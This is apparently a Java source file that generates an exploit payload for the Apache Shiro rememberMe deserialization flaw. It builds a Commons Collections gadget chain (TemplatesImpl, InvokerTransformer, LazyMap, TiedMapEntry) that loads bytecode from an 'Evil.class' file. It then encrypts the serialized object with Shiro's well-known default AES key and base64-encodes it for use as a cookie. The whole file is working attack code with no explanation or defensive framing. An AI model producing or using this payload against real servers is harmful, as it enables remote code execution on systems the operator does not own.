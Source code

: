 ```java
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException, IOException, NoSuchFieldException, IllegalAccessException {
        System.out.println(tob64(ccshiro()));
    }


    private static byte[] ccshiro() throws IOException, NoSuchFieldException, IllegalAccessException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazymap = LazyMap.decorate(new HashMap(), invokerTransformer);
        TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), template);
        hashMap.put(mapentry,'b');
        Field mapfield = TiedMapEntry.class.getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(mapentry,lazymap);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashMap);
        oos.flush();
        return bos.toByteArray();
    }

    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class objClassClass = obj.getClass();
        Field declaredField = objClassClass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }
}
```